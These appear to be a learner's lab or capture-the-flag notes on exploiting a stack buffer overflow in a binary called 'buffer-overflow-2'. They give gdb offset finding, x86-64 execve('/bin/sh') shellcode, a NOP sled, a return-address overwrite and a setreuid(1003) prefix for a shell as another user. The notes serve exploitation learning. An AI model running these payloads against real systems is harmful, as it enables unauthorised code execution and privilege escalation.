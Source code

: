 - Check the register(s)
	- `(gdb) i r`
- Check what `rbp` has:
	- `0x4133664132664131`
- Check this against MSF's `pattern_offset.rb`
	- `../pattern_offset.rb -q 0x4133664132664131`
	- Exact match at offset 155
	- 155 + 8 = 163 (as per notes above, seems to check out)
- `shellcode`
	`\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05` (40 bytes)
- Run it through in `dbg`
	```
	(gdb) run $(python -c "print '\x90'*111 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'B'*6")
	```
	- I confirmed that this would overwrite the complete Return Address by manually checking (the math I need to get my head around still as to why - but used `gdb` to be able to manually check)
	- `Program received signal SIGSEGV, Segmentation fault. 0x0000424242424242 in ?? ()`
- I checked with `(gdb) x/100x $rsp-200`
- `0x7fffffffe298: 0x90909090      0x90909090      0x90909090      0x48583b6a`
	- We're in the third column again needing to add 12 to `0x7fffffffe298`
	- Going to try `0x7fffffffe2a4` (I used an ASCII table for this, lol, https://www.ascii-code.com/)
	- We have the exact address of where our Shellcode sits, but, we're going to be using NOPs anyway... But I guess good practice :) 
- I am going to use this memory address since it's full of NOPs, and just before the line where our Shellcode sits:
	- `0x7fffffffe288: 0x90909090      0x90909090      0x90909090      0x90909090`
	- Little Endian
	- `\x88\xe2\xff\xff\xff\x7f`
	- `./buffer-overflow-2 $(python -c "print '\x90'*111 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x88\xe2\xff\xff\xff\x7f'")`
	- IT WORKED!
	- Now lets get the `reuid` for user3 (1003) sorted out with the use of pwntools
		- `pwn shellcraft -f d amd64.linux.setreuid 1003`
		- `\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05`
		- We add this to the start of our first Shellcode and make the difference of 14 from 111 in our current NOP input
		- New command run:
		```
		./buffer-overflow-2 $(python -c "print '\x90'*97 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x88\xe2\xff\xff\xff\x7f'")
		```
		- Boom. 